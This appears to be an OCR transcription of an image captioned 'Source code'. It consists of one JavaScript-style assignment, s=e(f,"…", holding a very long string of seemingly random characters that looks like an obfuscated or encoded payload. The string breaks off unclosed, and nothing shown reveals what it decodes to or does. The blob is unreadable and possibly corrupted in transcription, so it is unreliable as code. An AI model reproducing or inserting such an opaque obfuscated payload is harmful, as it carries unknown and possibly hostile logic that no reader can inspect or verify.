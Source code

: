 s=e(f,"Lq+g<nG6fJuMh5*4<5n5fuMf*6gN<+6FJ*huMqh4qg+uGuJfMf4nqf<q<nGfJGh54f+<nffnM+5MPugGG6Juh<4eq55nq.g%n*fhMffqhuP}qhn6ggJZ5nM5qgn*Jghqg4fnJuhf4G++5hg5nff<h<4qbh<M+6fu5q4ugnn+f5Mh5fqq4g<+Jghu4<+6ug*q4*+hnufG<fJ*hJ*Jqfng+4fu*<ahgMnuJnhuJ454J65n4++m<*6ug4f4Mu*g;hgf66nqM+45+I<hfMM6*f8*fMh+*Gq<<+G*+n65uO5_WGg<GtJgMug56gJfhG4<+7*<ggqqJ+hq4kK4g5hq?qqh<u6fu<Gnuh5h,fg4GguX6M5Mqhq4GuMg5fqqg4n*Jnqq<fGhJuhf4<u*U4gnn4Jehghgq<<6hg8gq*<h6uuGn*uu*Jhn+nG+J+h+uMvhnjf+Mf55j1<qGuJMqg<6G*Jhhu4GM5b+g6qn6JfggM6gJGh<4+q*5<gGGqfhM55uh6q56fJgqM<*6Gu<5+4**gqggfGMJ4qn<n6)J*hhG5J5MffnMh*^m*ghGfgq6uuMhfMn)hG<GhM+g6GuJ+hZ**qu5g+hnufMMugqGMfhMu*fq<5h+hn+6hMnh+rxg5G+J6hJ4GG5unhf4G+<nmBunuffG4h+qf<J6Eu6hf<5ffuf5GO<gX44<+G*JqhG4{5J+ffJM65+%+gfM64*q+<RG*Jun<Mn5}4hghGJf<hgJ44unK6MJMhuan*qghJGM**5zh<66hnqJq<Jf5u<5+/U+h*g<<GGJ6M5u6qGSgngu*h*t4*J<uf*h=4GqMg*64uf5Jnqffuh5uFfg<4hg4G*uq5uu4InGT6MXg<fn*fhMu*GJh46+Tn+6fGqM+P4guGhJuh<4JqGnq+564h*45+uGqJ<M<gJG4J<h+4bqh*qw<<qG*GJM*4<4<M54gqf<G6<udG4uf*gh4*5<gJ*MJ<q6nJhhu4f+<*Mg1GMf<M54+GJu+h<4++y<hqqGqf+Mf*+qh<+n+J4hM!G66M_5+B9+*nuq5Ghushh4=qh<hgqf6*+45fnMh*BF*ghGfq*G4J5uJeug6Gnf*MMg66lJ+hx**qu*++5n!6*uMJn4n<GG5<5f4<n66u_h*4h+f*GgJG+JMqqnuGhJuhf4<uh4fg+nfJgMNJ544<f6*Ju5nMqogn+fqu**nqfgf+qfqh+*5+fnJfg44gGnuffMG*+J54<+n<f6<n5Mg(*+JMq45:hguGfJ<GgJh5n4MguGqg56gM4qh<gGGJuh*4Mqh.JfnM<Jg4qg++h6fhf*Jq*<46GGf+JGff<M+*l}hhn+qg*6+uf5nMnl<nnJnM+*Jq5<h66Jf5<<MfuuG5<S++**Gg+6q<5u5*uqu<uggJ<5fKug6nuJMh<4nG5u<hf4G+<ndqfnff+hq*rqgqMGfu6q4n<6uuf5GB+h4BJg*GGuq5qMh6nu*5.4*+hnfqqGuJGMf*Jqh<<+4fn*t4MfgMJ5*3hguGGq4G*unhhMgQJG<64b6g5G+J}M**uM+5ANMiJ<u6nug5JfMh6*Gq<<+G*gG6<Mq5G_Mg5q66gMf4fh4g+6MJ5+gnf6*uh5uoGh<qG<6+n6M5G4q6JMf5<1+g:nhq<G*J55<uJ4M<*fGu<5*/4+4qJ6gM*4qqhJM5g4G+<n+6*gfJJM4*Jqu<+6M6Mhh446M525G1<g+n*+6GJJf5ZuMq4nkfqufJqqG+*G*<Jh646++nn6<u^544*+MqnJuMu4gqn4MnGuG5<!qq<n<f,GMh45uJqhu*hqu<f6<gh64u**qjng*q566h+*5quu?h54M+4nGf<M+5*uQ4iq*<M+MJq+gnM6*uh5u3GhJr*<*+nff5q4gq*n46*,ggun*fhMu*GM+**+unJ6nMr*<yM+4Mn*hqEg*GhJfnnM<5J4hg6qgGJh<54G6u6h+4:q*<uA+nhfJM5*Jq<g4GG<4hq4u5Jgu6fMn5ut4<qM6*hq+<^G*Jungu+5q4ughGqJ6W5<JGfJGh<48M<4M)*GfG<M:*qqgguGfnqu6_+q5un55w